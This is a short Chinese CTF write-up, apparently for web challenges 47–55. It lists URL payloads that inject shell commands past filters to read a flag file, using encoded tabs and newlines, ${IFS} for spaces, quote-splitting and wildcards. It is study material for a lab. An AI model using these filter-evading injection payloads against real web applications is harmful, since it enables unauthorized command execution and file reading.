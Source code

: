 过滤数字

%0a是换行符，能代替分号

虽然这题过滤了数字，但因为%09是一个字符，属于编码，在带入服务器时会进行解码，所以并没有被过滤



---
## web47-49
payload:
```
?c=tac%09fl'ag'.php%0a
```

---
## web50-51
![](https://img-blog.csdnimg.cn/20210213214411265.png#pic_center)
payload:
```
?c=tac<fla'g'.php%0a
```
---
## web52
这题过滤了<>，那么就用${IFS}代替空格，但是，没有flag.php
```
?c=ls${IFS}../../../||  查看有flag
?c=nl${IFS}/fl''ag%0a
```
---
## web53
payload:
```
?c=nl${IFS}fla''g.php%0a
```
---
## web54
![](https://img-blog.csdnimg.cn/2021021321474718.png#pic_center)
过滤了好多好多

>bin为binary的简写主要放置一些 系统的必备执行档例如:cat、cp、chmod df、dmesg、gzip、kill、ls、mkdir、more、mount、rm、su、tar、base64等

payload:
```
?c=/bin/?at${IFS}f???????%0a

?c=paste${IFS}fl?g.php%0a

?c=uniq${IFS}f???????
```
---
## web55(*)
